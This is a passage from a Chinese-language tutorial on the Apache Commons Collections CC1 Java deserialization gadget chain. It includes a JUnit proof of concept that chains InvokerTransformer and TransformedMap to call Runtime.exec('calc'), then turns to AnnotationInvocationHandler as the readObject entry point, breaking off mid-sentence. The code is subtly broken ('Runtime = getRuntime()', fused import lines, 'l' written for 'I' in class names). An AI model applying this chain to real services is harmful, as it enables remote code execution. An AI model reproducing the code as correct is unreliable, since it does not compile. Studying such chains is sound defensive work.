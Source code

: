 可以看到里面的键值对就成了一个实体。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCwudE6f3rX6fB5HDAo2ljf9XNjJ5MKfNXCDtj6lfx15QUOpjjbI0Cj4srncyG0f696CGYXIUo7gA/640?wx_fmt=png&from=appmsg "")  
  
然后我们再通过entry.SetValue传入我们的危险方法，即Runtime.getRuntime()。代码如下：  
```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;
import java.io.IOException;
import java.util.HashMap;
import java.util.Map;public class CC1Test1 {
    
    @Test
    
    public void invokeExec() throws IOException {        
    //Runtime.getRuntime().exec("calc");
        
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec",
        new Class[]{String.class},             
        new Object[]{"calc"}
    );
        
    //invokerTransformer.transform(Runtime.getRuntime());
    //Map decorated = TransformedMap.decorate(null,null, invokerTransformer);
    //TransformedMap.checkSetValue()      
    HashMap<Object, Object> map = new HashMap<>();
        map.put("a", "b");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformer); 
              
        for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
            entry.setValue(Runtime = getRuntime());
        }
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCwudE6f3rX6fB5HDAo2ljfCmA7oKpFJGicDF8qOiaycaa9dN8TkA50K2yRE1uELNmQUasucgW9O93Q/640?wx_fmt=png&from=appmsg "")  
  
到这里为止，我们把我们的利用链又往前推进了一步，所以我们的调用流程就变成了如下，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCwudE6f3rX6fB5HDAo2ljfnfq2QbXt2AvpUt6y0SErgf9sw8c3oeDFwzgCfIvlTecTcVgZYwX1bA/640?wx_fmt=png&from=appmsg "")  
  
5  
  
**AnnotationInvocationHandler类：**  
  
接下来我们在AbstractlnputCheckedMapDecorator找谁可以调用Map.Entry.setValue()函数。  
  
用同样的方法，通过查找发现有好多类都调用了Map.Entry.setValue()函数。但是我们最好找到一个序列化入口类，也就是重写了readObject方法，在readObject方法里面调用了setValue()函数，这样的话就一步到位，省略了我们找中间类的过程。  
  
根据这个条件，不难发现AnnotationlnvocationHandler类具备上述的所有条件。即：  
  